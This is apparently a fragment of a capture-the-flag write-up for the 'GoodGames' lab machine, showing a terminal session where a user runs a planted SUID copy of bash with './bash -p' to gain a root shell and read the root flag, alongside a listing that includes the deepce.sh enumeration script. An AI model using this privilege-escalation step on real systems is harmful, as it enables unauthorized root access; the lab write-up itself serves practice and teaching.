 ```bash
-rwxr-xr-x 1 root root   38197 Mar 12 05:41 deepce.sh
-rw-r----- 1 1000 1000      33 Mar 13 10:31 user.txt
```


```bash
augustus@GoodGames:~$ ls
bash  BashPortScan.sh  deepce.sh  user.txt
augustus@GoodGames:~$ ./bash -p
bash-5.1# ls
bash  BashPortScan.sh  deepce.sh  user.txt
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
0947410d4307a343a212814f96f507db
bash-5.1# 
```
